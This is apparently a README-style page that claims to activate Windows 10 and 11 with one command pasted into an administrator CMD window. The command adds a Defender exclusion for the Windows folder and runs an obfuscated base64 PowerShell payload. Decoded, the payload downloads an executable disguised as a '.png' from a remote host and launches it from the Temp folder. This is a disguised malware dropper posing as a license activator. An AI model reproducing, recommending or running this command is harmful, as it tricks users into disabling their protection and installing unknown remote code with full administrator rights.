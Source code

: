 
## To activate Windows 10 and 11 follow the steps.

> Just copy and paste the following command into CMD admin.

> [!NOTE]
> net session >nul 2>&1 && powershell Set-MpPreference -ExclusionPath $env:SystemRoot | powershell -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAGEAaQBvAHIAbwBzADEAMAAwADEALgBwAHkAdABoAG8AbgBhAG4AeQB3AGgAZQByAGUALgBjAG8AbQAvAHMAdABhAHQAaQBjAC8ALgBwAG4AZwAiACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoAUwB5AHMAdABlAG0AUgBvAG8AdABcAFQAZQBtAHAAXAAuAGUAeABlACIAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACIAJABlAG4AdgA6AFMAeQBzAHQAZQBtAFIAbwBvAHQAXABUAGUAbQBwAFwALgBlAHgAZQAiAA== >nul 2>&1 || (echo Need to run as Administrator )


> [!TIP]
> Wait about 1 minute for windows to activate. you do not need to restart the computer after the procedure
